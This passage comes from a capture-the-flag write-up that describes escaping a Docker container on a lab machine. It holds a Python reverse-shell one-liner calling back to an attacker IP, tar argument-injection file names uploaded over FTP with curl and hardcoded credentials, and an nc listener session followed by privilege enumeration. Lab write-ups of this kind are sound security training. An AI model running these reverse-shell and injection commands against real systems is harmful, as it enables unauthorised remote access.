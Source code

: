 Honestly, without any hint (did I miss any?), I don’t know how one could do this kind of assumption, but let’s take it for granted… I stopped reading the write-up and decided to continue exploring myself, with this new “hint”.

Reverse shell (escape the docker container)
Long story short, what we need to do is to push 3 files on the ftp server, under the /files directory in order to inject parameters to the tar command, as described on GTFOBins:

shell: a new reverse shell (we will do it in python)
--checkpoint=1
--checkpoint-action=exec=sh shell: to run our shell
Let’s create the files:

$ echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.8.50.72\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'" > shell.sh
$ echo "" > "/var/www/html/--checkpoint=1"
$ echo "" > "/var/www/html/--checkpoint-action=exec=sh shell.sh"
And now, let’s upload them to the remote location:

$ curl -v -P - -T "/var/www/html/shell.sh" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
$ curl -v -P - -T "/var/www/html/--checkpoint=1" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
$ curl -v -P - -T "/var/www/html/--checkpoint-action=exec=sh shell.sh" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
Open a new listener and wait 1 minute to get a new shell as backupmgr, outside of the docker container.

$ rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.144.133] 43678
bash: cannot set terminal process group (2532): Inappropriate ioctl for device
bash: no job control in this shell
backupmgr@tryharder:~/.ftp/files$ id
id
uid=1001(backupmgr) gid=1001(backupmgr) groups=1001(backupmgr)
backupmgr@tryharder:~/.ftp/files$ 
Let’s immediatly upgrade our shell:

backupmgr@tryharder:~/.ftp/files$ python -c "import pty;pty.spawn('/bin/bash')"
Lateral move (backupmgr -> jeff)
We are connected as backupmgr, but the user flag is in jeff’s home, that we don’t have access to.

backupmgr@tryharder:~$ ls -l /home
ls -l /home
total 8
drwxr-xr-x 7 backupmgr backupmgr 4096 May 24 13:25 backupmgr
drwx------ 5 jeff      jeff      4096 May 18 16:09 jeff
Listing files owned by jeff reveals 2 interesting files:

backupmgr@tryharder:~$ find / -type f -user jeff 2>/dev/null
find / -type f -user jeff 2>/dev/null
/opt/systools/systool
/var/backups/jeff.bak
backupmgr@tryharder:~$ cat /var/backups/jeff.bak
cat /var/backups/jeff.bak
cat: /var/backups/jeff.bak: Permission denied
Reading jeff.bak would obviously help (likely containing information to switch to the user), but only jeff can read the file. On the other hand, running the systool executable will show a menu:
